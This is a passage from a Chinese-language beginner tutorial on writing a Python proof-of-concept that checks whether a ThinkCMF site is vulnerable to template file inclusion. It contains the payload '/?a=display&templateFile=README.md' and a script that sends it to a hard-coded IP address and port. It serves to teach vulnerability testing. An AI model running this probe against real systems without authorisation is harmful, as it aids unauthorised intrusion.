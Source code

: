 这里我们编写最简单的`POC`，暂时不加上那些什么选参数等等内容，就是默认的一些内容，然后我们根据这个内容进行分析！

这里关于`Requests`模块，请去查的我第一篇文章或者百度去搜，是干嘛的，这里简述一下就是用于发送GET或者POST请求用的模块。

```python
##导入模块：Requests模块是Python中最简单易用的HTTP客户端库,可以极大简化发送HTTP请求的代码
import requests   

##这个地方的payload，就是我们上面的payload
payload = "/?a=display&templateFile=README.md"

##url = 这里我是固定死的IP地址并且加上相应的端口号同时破解payload，相当于：http://123.58.224.8:51653/?a=display&templateFile=README.md

url = f"http://123.58.224.8:51653{payload}"

##这个地方的值就是我使用bp中的插件获取到的，具体使用方式参考第一篇文章模块介绍，默认会添加burp_...，可以将前面的删除就可以了。
headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
           "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
           "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
           "DNT": "1", "Connection": "close"}

##这里地方就是使用requests发送get请求，这一步在上述bp插件中也会自动生成，只不过需要自己手动添加一个值去保存，后续我们需要使用到。
r = requests.get(url, headers=headers)

##这里就是进行判断，r.text就是上述r中保存的值，而目前r.text中保存的是响应后页面中展示的内容，，例如下面截图中我框选起来的内容
##相当于：如果在响应的页面中存在"ThinkCMF是一款"字样，那么就可以判断为存在漏洞，否则就不存在漏洞。
if "ThinkCMF是一款" in r.text:
    print("存在漏洞")
else:
    print("不存在漏洞")
```

注意事项：

本代码中是存在可优化的内容，但是如果将多个内容都集成写在一起，可能会导致新手理解起来比较麻烦。

同时在`if`判断的那里为什么要选择`ThinkCMF是一款`，这个就相当于我的参照物，我们目前处于学习的过程中，没有那么严谨，所以我们随机选取了一段内容作为判定值。

如果在严格的编写下，这里的判定值一定要选择响应页面中独一无二的内容。

